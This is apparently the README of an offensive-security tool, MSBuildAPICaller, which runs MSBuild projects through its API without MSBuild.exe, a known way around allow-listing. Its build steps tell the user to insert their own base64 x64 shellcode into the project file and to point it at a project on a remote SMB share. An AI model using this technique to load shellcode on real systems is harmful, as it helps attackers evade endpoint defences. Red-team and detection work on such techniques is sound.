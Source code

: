 ## An updated version of this project resides at https://github.com/rvrsh3ll/NoMSBuild


# MSBuildAPICaller
 MSBuild Without MSBuild.exe


# How to build and execute

## Step 1: Build IEShim.cs
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.Tasks.v4.0.dll";"Microsoft.Build.Utilities.v4.0.dll" /target:library IEShim.cs

## Step 2: Modify "projectPath" variable on line 60 of msbuildapicaller.cs to your needs
## Example: string projectPath = '\\\\192.168.1.100\\share\\msbuildapicaller.csproj';

## Step 3: Replace <Base64 Encoded x64 Shellcode>  with your base64 encoded x64 shellcode in msbuildapicaller.csproj


## Step 4: Replace AssemblyFile variable with the location of your compiled dll from step 1

## Step 5: Build msbuildapicaller.cs
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.dll";"Microsoft.Build.Engine.dll";"Microsoft.Build.Utilities.v4.0.dll";"System.Runtime.dll" /target:exe msbuildapicaller.cs

## Step 6: Execute msbuildapicaller.exe
